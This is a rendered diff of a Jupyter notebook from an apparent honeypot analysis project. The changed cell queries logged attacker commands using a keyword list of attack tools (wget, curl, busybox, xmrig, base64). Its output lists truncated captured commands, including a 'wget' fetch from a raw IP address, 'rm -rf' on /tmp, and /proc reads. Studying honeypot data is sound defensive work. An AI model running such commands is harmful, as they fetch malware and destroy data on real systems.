

Before and after one commit to Faisal-8898/Cyber-Security-Data-Analysis-Pipeline, a Jupyter notebook: research-notebook/investigation-of-data.ipynb, the cells around one changed output, grey strips where cells are left out. Saved outputs shown, nothing was run; the diff lists cells and outputs as text; code cells hidden in the pictures; blank space fills up the shorter version.

```diff
--- a/research-notebook/investigation-of-data.ipynb
+++ b/research-notebook/investigation-of-data.ipynb
@@ -241,24 +344,58 @@ else:
 # %%
-# DDoS/botnet command strings observed in honeypot events
-ddos_commands = q("""
+# Attack commands — use command_str column (NOT raw_data->>'command' which is always empty)
+ddos_commands = q_safe("""
     SELECT
-        raw_data->>'command' AS command,
+        command_str AS command,
         count(*) hits
     FROM honeypot_events
-    WHERE raw_data->>'command' ILIKE ANY(ARRAY[
+    WHERE command_str ILIKE ANY(ARRAY[
         '%wget%', '%curl%', '%tftp%', '%chmod%777%',
         '%busybox%', '%/bin/sh%', '%/tmp/%',
-        '%flood%', '%ddos%', '%attack%'
+        '%flood%', '%ddos%', '%attack%',
+        '%miner%', '%xmrig%', '%base64%'
     ])
-    GROUP BY raw_data->>'command'
+    GROUP BY command_str
     ORDER BY hits DESC
     LIMIT 30
 """)
 
 status(len(ddos_commands) > 0, f"RQ3 — Attack commands in honeypot: {len(ddos_commands)} unique patterns")
 if len(ddos_commands) > 0:
-    print("\nTop attack commands (infrastructure delivery chain):")
+    print("\nTop attack commands (delivery chain evidence):")
     display(ddos_commands)
+else:
+    # Show ALL non-empty commands so we know what's actually there
+    any_cmds = q_safe("""
+        SELECT command_str, count(*) n
+        FROM honeypot_events
+        WHERE command_str IS NOT NULL AND command_str <> ''
+        GROUP BY command_str
+        ORDER BY n DESC
+        LIMIT 20
+    """)
+    print(f"\nAll commands in DB ({len(any_cmds)} unique — none matched attack keywords):")
+    display(any_cmds)
+# %% [output]
+✅ RQ3 — Attack commands in honeypot: 24 unique patterns
+
+Top attack commands (delivery chain evidence):
+|  | command | hits |
+| 0 | rm -rf /tmp/secure.sh; rm -rf /tm... | 31 |
+| 1 | /bin/busybox TEST | 8 |
+| 2 | /bin/busybox cat /proc/self/exe |... | 8 |
+| 3 | cat /proc/1/mounts && ls /proc/1/... | 8 |
+| 4 | echo "cat /proc/1/mounts && ls /p... | 8 |
+| 5 | cat /proc/1/mounts && ls /proc/1/... | 1 |
+| 6 | cat /proc/3/status && ls /proc/3/... | 1 |
+| 7 | cat /proc/mounts; /bin/busybox QVPHL | 1 |
+| 8 | cat /proc/mounts; /bin/busybox ZONKL | 1 |
+| 9 | cd /dev/shm; cat .s || cp /bin/ec... | 1 |
+| ... | ... | ... |
+| 19 | wget -qO- http://85.11.167.220/lo... | 1 |
+| 20 | /bin/busybox ZONKL | 1 |
+| 21 | PATH=/usr/local/sbin:/usr/local/b... | 1 |
+| 22 | PATH=/usr/local/sbin:/usr/local/b... | 1 |
+| 23 | PATH=/usr/local/sbin:/usr/local/b... | 1 |
 # %%
 # Credential stuffing signals — top credential pairs (brute force dictionaries)
 creds = q("""
```
Also changed, not shown: parts of 24 cells of this notebook, 20 other files.
